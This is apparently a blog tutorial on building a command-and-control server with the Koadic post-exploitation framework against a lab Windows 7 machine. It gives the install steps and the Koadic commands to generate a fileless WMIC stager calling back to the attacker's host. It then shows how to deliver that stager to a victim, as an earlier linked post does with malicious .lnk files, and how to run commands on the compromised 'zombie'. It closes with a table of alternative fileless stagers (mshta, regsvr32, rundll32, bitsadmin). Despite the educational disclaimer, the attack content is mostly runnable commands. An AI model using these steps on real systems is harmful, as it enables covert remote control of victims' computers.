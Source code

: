 ```yaml
---
title: "Create Command and Control Server with Koadic"
date: "2020-10-03"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Hey readers. Have you wonder how attacker compromised user and do the "bad things" from their Command and Control (C2) server to its zombies (victims) ?

In this tutorial, let us be that "attacker" and learn how they do this type of attack using a tool named [Koadic](https://github.com/zerosum0x0/koadic).

Disclaimer:
This is for research and education purpose only. Do with your own risk. Dosa guys pedajal orang.

Back to the topic. From their repo, they explained...

"Koadic, or COM Command & Control, is a Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire. The major difference is that Koadic does most of its operations using Windows Script Host (a.k.a. JScript/VBScript), with compatibility in the core to support a default installation of Windows 2000 with no service packs (and potentially even versions of NT4) all the way through Windows 10.

It is possible to serve payloads completely in memory from stage 0 to beyond, as well as use cryptographically secure communications over SSL and TLS (depending on what the victim OS has enabled)."

## Installation

```
git clone https://github.com/zerosum0x0/koadic.git
cd koadic
pip3 install -r requirements.txt
./koadic
```
## Generate payload
First, we run koadic and use module named wmic.
```
use stager/js/wmic
set srvhost 192.168.83.128
run
```
Note:
Replace the IP with your own.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/1.png)
## Deliver payload

Copy the fileless `wmic` command and deliver to your target. In case here, I'm just copy and paste into my targeted virtual machine (Win7). This serves payloads in memory using WMIC. So, we can consider this as fileless malware cause it serves in memory. 

For example of delivering payload, you can do technique like [malicious .lnk](https://fareedfauzi.github.io/blog-post/Create-malicious-lnk/) to compromise user.

So, after press enter in cmd. The payload should be run.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/2.PNG)

Switch back to our kali machine, focus back to our terminal.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/3.PNG)

You will notice that our target machine now will become our first zombie.
If we issue command `zombies 0`, it will give information about the compromised user (our first zombie).

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/4.PNG)

## Execute Command using Koadic

Using module `exec_cmd`, we specify the command that we want to execute. In this case, I give `calc.exe` as command that I want to execute.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/5.PNG)
```
use implant/manage/exec_cmd
set cmd calc.exe
set zombie 0
run
```
And calc.exe will be executed. Hooray 🎉.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/6.PNG)

We're now "king" for our zombies.

Let's try with other command line program.

```
set cmd ipconfig
set zombie 0
run
```

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/7.PNG)

Let's demonstrate in gif format, so you guys can easier to understand the flow. Please zoom-in the gif if you can't see clearly.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/a.gif)

## Last but not least
For stagers, instead of using wmic as our fileless malware, this tool have other option like mshta and etc.

Module | Description | Malware Category
--------|------------|-----
stager/js/mshta | serves payloads in memory using MSHTA.exe HTML Applications | File-less
stager/js/regsvr | serves payloads in memory using regsvr32.exe COM+ scriptlets | File-less
stager/js/rundll32_js | serves payloads in memory using rundll32.exe | File- less
stager/js/disk | serves payloads using files on disk | File-based
stager/js/wmic | serves payloads in memory using WMIC | File-less
stager/js/bitsadmin | transfers a .wsf payload containing JScript over a Bitsadmin job and executes it | File-less

You can read more in [Koadic repository](https://github.com/zerosum0x0/koadic) readme[.]md .

That's all. Thanks for reading!

